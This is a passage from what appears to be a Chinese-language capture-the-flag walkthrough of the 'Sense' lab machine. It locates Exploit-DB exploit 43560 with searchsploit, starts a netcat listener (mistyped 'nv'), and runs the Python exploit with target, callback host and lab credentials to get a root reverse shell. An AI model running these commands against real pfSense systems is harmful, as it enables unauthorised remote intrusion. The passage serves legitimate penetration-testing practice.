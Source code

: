 https://www.exploit-db.com/exploits/43560

我通过以下方式获得更多信息:

```
searchsploit -p 43560.py
```

![Screenshot-2020-09-15-at-21.23.55](img/a0dc3d59363e1ed0bb6c9198efbb6a47.png)

我可以在我的卡利盒上看到它的位置。我将文件复制到我的 **Sense** 文件夹中:

```
cp /usr/share/exploitdb/exploits/linux/remote/43560.py .
```

并检查它是否已被复制到该文件夹中:

```
ls -la
```

![Screenshot-2020-09-15-at-21.24.23](img/250260e7611d15de2d63ad10380b343f.png)

在一个终端(右侧)上，我设置了一个监听器:

```
nv -nvlp 1234
```

然后，我用以下内容设置了漏洞(左侧):

```
python 43560.py --rhost 10.10.10.60 --lhost 10.10.14.13 --lport 1234 --username rohit --password pfsense
```

我得到了一个壳作为根！

![Screenshot-2020-09-15-at-21.24.51](img/7bb17bfcdbe8a0e00d72980a0b3f6313.png)
